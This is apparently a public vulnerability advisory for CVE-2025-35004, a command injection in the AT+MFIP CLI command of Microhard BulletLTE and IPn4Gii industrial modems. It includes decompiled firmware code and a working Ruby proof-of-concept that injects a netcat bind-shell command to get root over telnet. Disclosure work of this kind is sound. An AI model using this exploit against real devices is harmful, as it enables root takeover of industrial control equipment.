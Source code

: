 ```yaml
---
title: CVE-2025-35004
aliases:
  - /cves/CVE-2025-35004.html
---
```


# CVE-2025-35004: Microhard Bullet-LTE and IPn4Gii AT+MFIP Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35004] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MFIP command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MFIP which is used for querying/configuring the IP firewall. User input supplied to the cmd_firewall_ip() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_firewall.sh script which is called via popen():

```
undefined4 cmd_firewall_ip(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
	...
	if (iVar1 != 0) {
           iVar1 = atoi(param_3[3]);
           iVar3 = atoi(param_3[4]);
           sprintf(acStack_1cfc,
	              "sh /etc/m_cli/atcmd_sh_firewall.sh %s %s %s %s %s %s %s %s %s  %s"
                      ,"ip_set_one",acStack_1d7c,auStack_1b78 + iVar1 * 0x84,
                      auStack_19ec + iVar3 * 0x84,param_3[5],param_3[6],param_3[7],
                      param_3[8],param_3[9],param_3[10]);
           memset(acStack_1c7c,0,0x100);
           iVar1 = FUN_0000e9a0(param_1,acStack_1cfc,acStack_1c7c,0x100);
           if (iVar1 == 0) {
              pcVar5 = "ERROR";
              goto LAB_00029e14;
           }
 	}
	...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;
  
  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the at+mfip command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE=2025-35004] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mfip=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35004] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132 
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35004]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35004]: https://www.cve.org/CVERecord?id=CVE-2025-35004
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
